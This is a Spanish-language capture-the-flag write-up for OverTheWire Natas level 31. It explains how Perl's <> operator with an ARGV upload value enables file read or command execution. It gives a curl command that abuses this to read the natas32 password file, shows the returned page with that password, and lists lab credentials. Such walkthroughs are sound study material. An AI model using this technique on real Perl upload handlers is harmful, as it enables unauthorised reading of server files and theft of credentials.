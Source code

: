 # Natas 31

#### URL: http://natas31.natas.labs.overthewire.org/
#### Credenciales: natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y

En Perl hay una vulnerabilidad al subir archivos, y es que el operador <> no acepta cadenas a menos que sea ARGV, en cuyo caso iterará sobre los ARG pasados como argumentos y los insertara en una llamada a open()

En resumen, RCE:

![2025-03-21-153213_1366x768_scrot](https://github.com/user-attachments/assets/c2a47dbd-b87d-480b-b6d9-3baf828aa987)

Solo tenemos que pasar "ARGV" como otro valor con el mismo identificador que el archivo a subir
```
echo "1;2;3;4" > file.csv
curl -u natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y -F file=ARGV -F file=@/home/kalcast/Laboratorio/file.csv submit=Upload http://natas31.natas.labs.overthewire.org/index.pl?/etc/natas_webpass/natas32
curl: (3) URL rejected: Bad hostname
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<!-- Bootstrap -->
<link href="bootstrap-3.3.6-dist/css/bootstrap.min.css" rel="stylesheet">
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas31", "pass": "<censored>" };</script>
<script src="sorttable.js"></script>
</head>
<script src="bootstrap-3.3.6-dist/js/bootstrap.min.js"></script>

<!-- morla/10111 -->
<style>
#content {
    width: 900px;
}
.btn-file {
    position: relative;
    overflow: hidden;
}
.btn-file input[type=file] {
    position: absolute;
    top: 0;
    right: 0;
    min-width: 100%;
    min-height: 100%;
    font-size: 100px;
    text-align: right;
    filter: alpha(opacity=0);
    opacity: 0;
    outline: none;
    background: white;
    cursor: inherit;
    display: block;
}

</style>


<h1>natas31</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B
</th></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

#### Visualizacion de la peticion en Burpsuite

![2025-03-21-154409_1062x361_scrot](https://github.com/user-attachments/assets/0d49df2f-72ff-48f6-87e1-1f3d865d6bae)

`natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B`

PD: The Perl Jam 2 --> https://www.youtube.com/watch?v=BYl3-c2JSL8
